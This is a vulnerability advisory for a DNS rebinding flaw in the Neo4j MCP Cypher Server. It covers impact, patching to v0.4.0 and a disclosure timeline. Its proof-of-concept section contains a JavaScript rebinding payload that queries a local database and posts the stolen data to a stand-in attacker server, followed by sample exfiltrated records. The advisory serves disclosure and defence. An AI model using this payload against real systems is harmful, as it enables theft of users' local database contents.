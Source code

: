 ```yaml
---
layout: post
title: "Neo4j MCP Cypher Server Vulnerable to Database Takeover Via DNS Rebinding"
date: 2025-10-13
categories: [dns-rebinding, security, api, neo4j, database]
excerpt: "A DNS rebinding vulnerability in the Neo4j MCP Cypher Server allows remote attackers to execute arbitrary Cypher queries against a user's database, leading to potential data theft, modification, and full database compromise."
---
```


**Author:** Evan Harris  
**Affected Component:** Neo4j MCP Cypher Server  
**Vulnerable Versions:** 0.2.2 to 0.3.1  
**CVE:** CVE-2025-10193  
**CVSS 4.0 Score:** 7.4 (High) - `CVSS:4.0/AV:N/AC:H/AT:P/PR:N/UI:A/VC:H/VI:H/VA:N/SC:N/SI:N/SA:N`

# Overview
The Neo4j MCP Cypher Server provides an HTTP endpoint for executing Cypher queries against a Neo4j database.

MCPSec discovered a **DNS rebinding vulnerability** in the server that allows remote attackers to bypass browser security policies and execute arbitrary Cypher queries against the MCP accessible database instance.

Neo4j has fixed this issue in release **v0.4.0**. All users of the affected versions should update immediately.

***

# Impact
Attackers gain full POST access to the `/api/mcp` endpoint served by the local Neo4j MCP Cypher Server.

This allows for the unauthorized execution of any Cypher query, effectively giving an attacker **full administrative control** over the Neo4j database. This can lead to:

* **Complete data exfiltration** of sensitive information stored in the database.
* **Unauthorized data modification** or corruption.
* **Data deletion** and denial of service.

The DNS rebinding attack can be executed within seconds of a victim visiting a malicious website, requiring only that they have the vulnerable server running locally.

## Proof of Concept

The attack scenario assumes:

* The victim is running a vulnerable version of the Neo4j MCP Cypher Server on their local machine.
* The victim navigates to a malicious website controlled by the attacker.
* The website executes a DNS rebinding attack, tricking the victim's browser into sending commands to the Neo4j server.

After the rebinding is complete, the attacker can use the victim's browser to send malicious Cypher queries to the locally served `/api/mcp` endpoint. Data can then be exfiltrated to the attacker's server, or data manipulation and deletion can be performed.

MCPSec performed a proof of concept attack using the following steps:
1.  **Deploy a DNS rebinding application** (e.g., Singularity of Origin).

2.  **Construct a JavaScript payload** served by the malicious website to execute a query and exfiltrate the data.

```javascript
const Neo4jRebind = () => {
  // The core attack function. It sends a malicious Cypher query.
  function attack(headers, cookie, body) {
    const maliciousQuery = 'MATCH (n) RETURN n LIMIT 100'; // Query to dump all nodes
    fetch('http://localhost:8000/api/mcp', {
      method: 'POST',
      headers: {
        'Content-Type': 'application/json',
        'Accept': 'application/json, text/event-stream',
        'Connection': 'keep-alive',
        'Cache-Control': 'no-cache'
      },
      body: JSON.stringify({ query: maliciousQuery })
    }).then(response => {
      const ATTACKER_SERVER = 'https://attacker.com/steal-neo4j-data';
      response.text().then(databaseContents => {
        // Send the stolen database contents to the attacker's server
        fetch(ATTACKER_SERVER, {
          method: 'POST',
          body: JSON.stringify(databaseContents)
        });
      }).catch(e => console.error('Failed to parse Neo4j response', e));
    }).catch(e => console.error("Failed to post Cypher query", e));
  }

  // Function to check if the rebound service is the target Neo4j server
  async function isService(headers, cookie, body) {
    try {
      const response = await fetch(`http://localhost:8000/`, { mode: 'no-cors' });
      // A successful ping (even opaque) suggests the port is open.
      return true;
    } catch (e) {
      return false;
    }
  }

  return {
    attack,
    isService
  }
}

Registry["Neo4jRebind"] = Neo4jRebind();
````

3.  **Run a data collection server** to receive the POST request containing the stolen database contents.

The following is an example of the JSON data exfiltrated from a victim's database, containing potentially sensitive user information.

```json
{
  "results": [
    {
      "columns": ["n"],
      "data": [
        {
          "row": [
            {
              "name": "Evan Harris",
              "email": "evan.harris@example.com",
              "role": "admin",
              "password_hash": "sha256:abc123def456..."
            }
          ],
          "meta": [{...}]
        },
        {
          "row": [
            {
              "project": "Project Titan",
              "api_key": "neo-secret-key-xyz789",
              "status": "active"
            }
          ],
          "meta": [{...}]
        }
      ]
    }
  ],
  "errors": []
}
```

-----

## Recommended Mitigations

### For Users (Immediate)

  * **Update to `mcp-neo4j-cypher` version v0.4.0 or later immediately.** This version contains the patch that validates the HTTP `Host` header to prevent this attack.
  * If you cannot update, switch from HTTP to stdio. Alternatively, put up a network request filter in front of your Neo4j Cypher MCP Server to defend against invalid host headers.

This vulnerability was reported to the Neo4j team through responsible disclosure practices. The team responded quickly to validate and patch the issue.

-----

## Disclosure Timeline

  * **2025-09-08**: Neo4j acknowledges receipt of the report.
  * **2025-09-09**: Neo4j acknowledges the risk from the attack vector.
  * **2025-09-09**: Detailed guidance and remediation examples provided to the Neo4j team.
  * **2025-09-09**: Neo4j raises a pull request with defensive measures.
  * **2025-09-11**: Patched version **v0.4.0** is released.
  * **2025-09-11**: **CVE-2025-10193** is issued and the GitHub Security Advisory is published.
  * **2025-09-12**: Publiation date of technical advisory agreed upon.
  * **2025-10-13**: Technical advisory relased.

-----

## Conclusion

The DNS rebinding vulnerability in the Neo4j MCP Cypher Server highlights a high security risk for developer tools that expose local database interfaces. While providing powerful local functionality, these services can become a gateway for web-based attacks if not properly secured. This can lead to the complete compromise of sensitive data.

Kudos to the Neo4j team for their professional and rapid response in patching this vulnerability. All users of the affected component should update to the latest version to ensure their data is protected.

## References

  * [Patched Release (v0.4.0)](https://github.com/neo4j-contrib/mcp-neo4j/releases/tag/mcp-neo4j-cypher-v0.4.0){:target="\_blank"}
  * [GitHub Security Advisory (GHSA-vcqx-v2mg-7chx)](https://github.com/neo4j-contrib/mcp-neo4j/security/advisories/GHSA-vcqx-v2mg-7chx){:target="\_blank"}
  * [CVE-2025-10193 Details](https://nvd.nist.gov/vuln/detail/CVE-2025-10193){:target="\_blank"}
